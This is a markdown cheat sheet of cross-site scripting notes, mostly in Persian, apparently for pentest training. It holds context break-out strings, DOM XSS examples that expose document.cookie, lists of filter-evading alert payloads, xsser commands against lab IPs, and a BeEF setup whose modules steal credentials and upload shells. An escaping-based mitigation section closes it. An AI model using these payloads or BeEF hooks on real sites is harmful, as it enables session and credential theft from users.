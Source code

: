 # XSS

## Exploit (Reflected & Stored)
- تزریق کد به محتوای صفحه HTML بدون هیچ encoding
  - ورودی های سایت مانند Search و Comment و ... 
  - پس از تزریق اسکریپت باید به page source code رفته و بررسی کنیم که با چه کاراکترهایی می توانیم از المانی که حاوی اسکریپت ما می باشد، breake out کنیم. چند نمونه در زیر آمده است:
```Javascript
">
'>
'">
'">');
/">
</title>
```
- س

## Exploit (DOM-based)
- استفاده از  برای sinkو تابع ```location.search``` برای  source 
- استفاده از ```innerHTML``` برای **sink  
 - در اینحالت محتوای search شده درون صفحه نمایش داده می شود، که باید از تگ img برای تزریق payload استفاده می کنیم.
```
0 search results for '<span id="searchMessage"></span>'
...
document.getElementById('searchMessage').innerHTML = (new URLSearchParams(window.location.search)).get('search')
``` 
- تابع ```location.search``` برای **source** و ```jQuery anchor href attribute``` برای **sink**
 - می خواهیم با کلیک روی کلید ```Back``` کوکی قربانی نمایش داده شود.
  - طبق کدهای زیر، پارامتر ```returnPath``` از URL خوانده شده و در href عه لینکی که به Back اشاره می کند، قرار داده می شود:
  - با تغییر URL و قرار دادن مقدار ```javascript:alert(document.cookie)``` برای پارامتر returnPath، با کلیک بر روی *Back*، کوکی کاربر نمایش داده می شود. 
```JavaScript
<a id="backLink">Back</a>
...
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
```
- ییی

## Payloads
```Javascript
<script>alert(888)</script>
<SCript>alert(888)</SCript>
<scri<script>pt>alert(888)</scri</script>pt>
<script>prompt(888)</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 56, 56, 56, 41))</script>

<svg onload=alert(888)>

<img src=1 onerror=alert(888)>
<img src=1 oNeRrOr=alert`888`>


<BODY ONLOAD=alert(888)>
```

## Payloads
```Javascript
'; alert(888)'//
%27;+alert(888);//
";alert(888);//
";alert(888);"
';alert(888);//
';alert(888);'
```

## xsser
- POST
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'```
    - XSSer will substitute payload in place of "XSS" string
    - ```p``` shows parameter in POST request (intercept request and copy parameter values from Burp) 
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto```
    - Trying various XSS payloads by using XSSer's ```--auto``` option
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"```
    - Using custom XSS payload 
- GET
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote"```
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"```
    - Providing basic XSS payload to XSSer
- Authenticated
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0"```
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0" --Fp "<script>alert(1)</script>"```
    - Scan the target using basic XSS payload

## BeEF

- Initialize
  - Install
    - ```apt update```
    - ```apt install beef-xss```
  - Change username/password
    -```nano /etc/beef-xss/config.yaml```

- Run
  - ```beef-xss```  
  - Browser => 127.0.0.1:3000/ui/panel

- Usage
  - 127.0.0.1:3000/hook.js
  - 192.168.8.106:3000/demos/basic.html

- Useful commands
  - Steal Credentials
    - Social Engineering -> Pretty Theft
  - Screenshot
    - Browser -> Spyder Eye     
  - Redirect 
    - Browser -> Hooked Domain -> Redirect Browser  
  - Shell Upload with update
    - Social Engineering -> Fake Notification Bar(Firefox)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
